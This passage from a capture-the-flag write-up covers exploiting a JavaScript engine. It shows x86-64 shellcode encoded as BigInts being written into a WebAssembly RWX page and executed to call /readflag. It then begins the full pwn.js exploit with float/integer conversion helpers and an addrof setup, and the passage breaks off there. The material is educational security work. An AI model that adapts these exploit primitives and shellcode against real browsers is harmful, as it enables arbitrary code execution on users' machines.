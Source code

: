 next, using arbitrary write we'll copy the our shellcode to the rwx page, and finally execute the wasm function.

```javascript
var shellcode = [
    0x480000000d3d8d48n,
    0x003bb8d23148f631n,
    0x6165722f050f0000n,
    0x0067616c6664n,
];

copy(rwx, shellcode);

console.log("[+] executing execve('/readflag', 0, 0)");
f();
```

and here's the script being ran againts remote:

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

below is the full exploit:

{% code title="pwn.js" %}
```javascript
/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

// d8 only
// function dp(x){ %DebugPrint(x); }
// function bp() { %SystemBreak(); }

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

/// Construct addrof primitive
var float_arr = [1.1, 1.2, 1.3, 1.4];
```